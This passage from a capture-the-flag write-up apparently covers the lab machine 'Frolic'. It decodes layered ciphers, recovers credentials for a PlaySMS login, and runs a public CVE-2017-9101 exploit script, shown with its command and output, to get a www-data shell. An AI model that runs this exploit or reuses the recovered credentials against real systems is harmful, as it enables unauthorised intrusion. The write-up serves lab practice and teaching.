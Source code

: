 Decoded text : `Nothing here check /asdiSIAJJ0QWE9JAS`

We visit the site and find out some cipher which looks like a `base64`.
We could paste it on `cyberchef`.
![[Pasted image 20210709165522.png]]

It turns out that it is a `PKZIP` file which we could download from there and save it.
But, It turns out that it is encrypted.
The zip passwor is : `password`

We unzip it and find an `index.php` which has some cipher that looks like hex.
![[Pasted image 20210709173647.png]]

We decode it and find out that it decodes from `hex` , `base64`, `brainfuck`.
![[Pasted image 20210709175157.png]]
![[Pasted image 20210709175225.png]]

We get a password : `idkwhatispass`.

We visit the `http://10.10.10.111:9999/backup/dev/` and find out that it shows a webdirectory called `/playsms/`.
![[Pasted image 20210709190832.png]]

We visit the `http://10.10.10.111:9999/playsms` and find out a login page.
![[Pasted image 20210709190921.png]]

The credential `admin` and `idkwhatispass` works on the `playsms` and we get logged in.

# Initial Foothold as www-data
The playsms here is vulnerable to `import.php` csv command execution.
Exploit : https://www.exploit-db.com/exploits/42044

We will be using an automated exploit from github.
Exploit : https://github.com/jasperla/CVE-2017-9101
![[Pasted image 20210709211637.png]]
```python
┌─[Magisk@Xyan1d3]─[10.10.14.18]─[~/htb/frolic/CVE-2017-9101]
└──╼ # python3 playsmshell.py --username admin --password idkwhatispass --url http://10.10.10.111:9999/playsms --interactive
[*] Grabbing CSRF token for login
[*] Attempting to login as admin
[+] Logged in!
[*] Grabbing CSRF token for phonebook import
[+] Entering interactive shell; type "quit" or ^D to quit
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We could use it to get a proper reverse shell.
![[Pasted image 20210709211755.png]]
